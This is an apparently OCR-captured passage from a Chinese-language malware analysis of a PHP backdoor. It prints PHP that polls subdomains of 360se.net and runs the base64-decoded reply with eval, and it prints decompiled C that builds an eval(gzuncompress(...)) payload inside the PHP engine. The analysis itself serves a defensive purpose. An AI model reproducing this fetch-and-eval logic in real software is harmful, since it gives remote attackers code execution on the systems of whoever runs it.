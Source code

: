 ```
  foreach ($ps as $p)`{`
   $result = tcpGet($i,$d.".360se.net",$p); 
   if ($result != "err")`{`
    $b =true;
    break;
   `}`
  `}`
  if ($b)break;
 `}`
 $info = explode("&lt;^&gt;",$result);
 if (count($info)==4)`{`
  if (strpos($info[3],"/*Onemore*/") !== false)`{`
   $info[3] = str_replace("/*Onemore*/","",$info[3]);
   $n=true;
  `}`
  @eval(base64_decode($info[3]));
 `}`
`}`while($n);
```

### 2.触发固定的payload2

```
if ( dword_10012AB0 - dword_10012AA0 &gt;= dword_1000D010 &amp;&amp; dword_10012AB0 - dword_10012AA0 &lt; 6000 )
  `{`
    if ( strlen(byte_100127B8) == 0 )
      sub_10004480(byte_100127B8);
    if ( strlen(Dest) == 0 )
      sub_10004380(Dest);
    if ( strlen(byte_100127EC) == 0 )
      sub_100044E0(byte_100127EC);
    v8 = &amp;rce_cmd;
    v9 = asc_1000D028;
    v41 = &amp;rce_cmd;
    v10 = 0;
    v11 = asc_1000D028;
    while ( 1 )
    `{`
      if ( *(_DWORD *)v11 == '\'' )
      `{`
        v8[v10] = 92;
        v41[v10 + 1] = *v9;
        v10 += 2;
        v11 += 8;
      `}`
      else
      `{`
        v8[v10++] = *v9;
        v11 += 4;
      `}`
      v9 += 4;
      if ( (signed int)v9 &gt;= (signed int)&amp;unk_1000D66C )
        break;
      v8 = v41;
    `}`
    spprintf(&amp;v41, 0, aEvalSS, aGzuncompress, v41);
    v22 = *(_DWORD *)(*a3 + 4 * executor_globals_id - 4);
    v23 = *(_DWORD *)(v22 + 296);
    *(_DWORD *)(v22 + 296) = &amp;v31;
    v38 = v23;
    v24 = setjmp3((int)&amp;v31, 0);
    v25 = v38;
```